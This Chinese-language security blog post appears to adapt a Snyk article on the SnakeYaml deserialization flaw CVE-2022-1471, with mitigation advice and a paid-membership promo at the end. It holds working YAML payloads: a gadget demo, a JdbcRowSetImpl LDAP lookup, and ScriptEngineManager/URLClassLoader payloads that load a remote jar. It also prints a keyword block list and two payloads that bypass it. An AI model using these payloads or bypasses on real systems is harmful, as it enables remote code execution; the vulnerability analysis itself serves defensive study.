 #  SnakeYaml 中不安全的反序列化漏洞 (CVE-2022-1471) 有感   
umbrella枇杷哥  黑伞安全   2024-04-15 18:02  
  
### 原文：https://snyk.io/blog/unsafe-deserialization-snakeyaml-java-cve-2022-1471/  
  
SnakeYaml安全漏洞概述  
  
SnakeYaml是Java中广泛使用的YAML 1.1解析器和发射器。该库因其在Spring Boot中默认打包而广为人知。然而，最近的安全报告指出，SnakeYaml存在一个安全漏洞，攻击者可以利用这个漏洞执行任意代码。  
  
漏洞的核心在于SnakeYaml的Constructor类存在缺陷，它没有限制可以反序列化的类型。这意味着攻击者可以提供一个恶意的YAML文件进行反序列化，从而可能利用系统。这个问题导致了不安全的反序列化问题，可能导致任意代码执行。  
  
```
1Yaml yaml = new Yaml();2File file = new File("file.yaml");3InputStream inputStream = new FileInputStream(file);4User user = yaml.load(inputStream);
```  
  
在上面示例中从文件中加载 YAML 时，输入被解析为泛型 Object.class，这是 Java 中所有对象的父类型。在我们的代码中，我们期望一个 User 对象，但强制类型转换发生在对象加载到内存后。由于泛型 Object 类型，任何对象都可以被使用。如果应用程序的类路径中存在小工具或小工具链，这可能导致任意代码执行。  
  
  
这与我们在 Java 中的序列化和反序列化  
以及  
Jackson ObjectMapper 的 Java JSON 反序列化问题  
一文中探讨的问题类似  
。  
## SnakeYaml vulnerability demo  
  
为了演示脆弱的场景，我故意创建了一个小工具类。小工具类是一个在实例化时具有副作用的类，可以直接执行某些操作，也可以启动一个小工具链。在这种情况下，当调用构造函数时，小工具执行给定的命令。  
  
```
1public class Gadget {2   private Runnable command;
3
4   public Gadget(String value) {5       this.command = new Command(value);6       this.command.run();7   }
8}
```  
  
当这个Java类可用时，我使用之前给出的代码对我的YAML进行反序列化，可以向YAML文件中提供以下内容：  
```
1!!nl.brianvermeer.snakeyaml.Gadget ["touch myFile.txt"]
```  
  
  
这意味着我可以针对类路径中可用的任何 Java 类使用 SnakeYaml 进行特定目标。因为该类已经在我的类路径中，并且 SnakeYaml 会创建对象，而不考虑预期的类，我最终会遇到 ClassCastException。然而，伤害已经造成，并且命令已被执行。在类路径中有可用的小工具或小工具链可能会导致灾难性的情况，比如反向 shell 攻击。  
## SnakeYaml漏洞在实际应用中有多严重？  
  
在上面的示例中，几乎没有人会像我们所做的那样创建一个小工具。但是，引入第三方库会增加您在代码中出现以这种方式创建的小工具的机会。快速查看 ysoserial GitHub 存储库，或者 jackson-databind JSON 编组库中可能的反序列化问题列表，显示风险潜力很高。jackson-databind 的区别在于 jackson 默认情况下不启用 defaultTyping（如我们在先前的漏洞提及中所描述的）。恶意行为者还可以使用 JDK 中的一些类来造成一些损害。例如，ScriptEngine：  
```
1!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://localhost:8080/"]]]]
```  
  
此 YAML 输入连接到一个 URL，可以将有害内容下载到您的应用程序中，正如在这篇 Websec 文章中所解释的那样。另一个例子（取决于您运行的 Java 版本）是 JdbcRowSetImpl 类，它可以利用 LDAP 请求进行查找。这可能会导致类似于不久前看到的 Log4Shell 的风险。  
```
1!!com.sun.rowset.JdbcRowSetImpl2dataSourceName: "ldap://localhost:9999/Evil"3autoCommit: true
```  
  
更多信息，请查看SnakeYaml的Bitbucket问题。  
  
### 如何判断是否受到SnakeYaml漏洞的影响  
  
是否受到这个漏洞的影响取决于你如何使用这个库。如果你以类似于处理XML和JSON对象的方式从其他来源加载自定义YAML数据，你可能会受到威胁。一般来说，你不应该接受来自未知来源的这些输入。  
  
### 建议  
- 始终使用受信任的数据源：不要从不信任的来源加载YAML数据。  
  
- 使用SafeConstructor：在创建Yaml对象时，使用new Yaml(new SafeConstructor())，这样可以避免不安全的反序列化。  
  
- 定期扫描依赖关系：使用像Snyk这样的工具，可以实时扫描已知漏洞，并提供可行的修复建议和优先级评分，以便你可以最大化你的修复工作的影响。  
  
怎么挖：  
  
找到使用yaml 格式的配置文件或资源应用，尝试构造yaml poc  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGo5uYh4LqNaAnabVNyt6GlovcBGXreNicTjs9QGmDrU1rtUxqhcoFN0woflW3hLwjJXGicXhkpXMD6g/640?wx_fmt=png&from=appmsg "")  
  
都怎么防的？  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGo5uYh4LqNaAnabVNyt6GloMiaOKyk4cCZVL9ibuSCe6KJ7ewxJI850sjQKGBxjRm951AWNTIHy1B6w/640?wx_fmt=png&from=appmsg "")  
```
private static final String[] RISKY_STR_ARR = {"ScriptEngineManager", "URLClassLoader", "!!",
            "ClassLoader", "AnnotationConfigApplicationContext", "FileSystemXmlApplicationContext",
            "GenericXmlApplicationContext", "GenericGroovyApplicationContext", "GroovyScriptEngine",
            "GroovyClassLoader", "GroovyShell", "ScriptEngine", "ScriptEngineFactory", "XmlWebApplicationContext",
            "ClassPathXmlApplicationContext", "MarshalOutputStream", "InflaterOutputStream", "FileOutputStream"};
```  
  
这段Java代码定义了一个名为RISKY_STR_ARR的字符串数组，其中包含了一系列的字符串元素。这些元素代表了一些可能存在安全风险的类名或者与安全相关的关键字。这个数组可能被用于安全检查或者过滤，以确保在处理输入或者执行某些操作时，不会涉及到这些可能带来安全威胁的类或关键字。  
  
  
看似ban了!!  
  
参考浅蓝师傅的文章：https://b1ue.cn/archives/407.html  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGo5uYh4LqNaAnabVNyt6Gloc3QVlvibKUQrgiaKxW31B610MiaS2j5EBGAbnePzFIEzLXLIjdaYNdiapw/640?wx_fmt=png&from=appmsg "")  
  
放出bypass  
```
!<tag:yaml.org,2002:javax.script.ScriptEngineManager> 
[!<tag:yaml.org,2002:java.net.URLClassLoader> [[!<tag:yaml.org,2002:java.net.URL> 
["http://ip/yaml-payload.jar"]]]]
```  
```
%TAG ! tag:yaml.org,2002:
---
!javax.script.ScriptEngineManager [!java.net.URLClassLoader [[!java.net.URL ["http://ip/yaml-payload.jar"]]]]
```  
  
参考：https://tttang.com/archive/1815/  
  
  
如果你是一个长期主义者，欢迎加入我的知识星球,我们一起冲，一起学。每日都会更新，精细化运营，微信识别二维码付费即可加入，如不满意，72 小时内可在 App 内无条件自助退款。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGoa1Yh6UHSvgToDQcqx7RLLnJIWwnw3z5JvaexDaclyMwMial9BMOBqkJESSKALIQHIL6T2xTV9GKw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
